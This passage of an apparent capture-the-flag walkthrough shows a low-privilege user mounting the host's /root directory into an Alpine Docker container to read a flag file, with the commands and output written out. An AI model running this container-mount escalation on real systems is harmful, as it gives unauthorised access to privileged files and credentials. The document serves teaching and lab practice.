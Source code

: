 ```bash
/ # pwd
/
/ # cd mnt
/mnt # ls
test.txt
```

Now we can use the `cat` command to read the contents of the test.txt file we created:

```bash
/mnt # cat test.txt
testing 123
```

Looks like that worked! 

Okay, we've validated that we can create a container using a non root user, and then mount a directory on the host server onto the actual container. We've also confirmed we can read the contents of a file stored in that directory. Now, let's exit the container, and create a new container, this time mounting the root user's directory so we can retrieve the flag.

To exit the container:

```bash
$ /mnt # exit
```

Confirm you're back on the host server by checking the hostname:

```bash
playground@ip-10-0-0-150:~$ echo $HOSTNAME
ip-10-0-0-150
```

Now we will repeat what we did above to create a container from the `alpine` image and mount the user's volume, but this time mounting the `/root` home directory instead of `/home/playground`:

```bash
playground@ip-10-0-0-150:~$ docker run -it -v /root:/mnt alpine sh
/ # echo $HOSTNAME
c08716be0cf9
```

There we go, we're in a new container, with a new ID which is set as the hostname.

Let's now go back to the `/mnt` directory in the container and have a look around:

```bash
/ # cd /mnt
/mnt # ls
CVE-2021-41773  flag.txt        the_flag
```

Looks like we're able to view the list of files. Now, let's read the contents of `flag.txt`:

```bash
/mnt # cat flag.txt
this is the flag
```
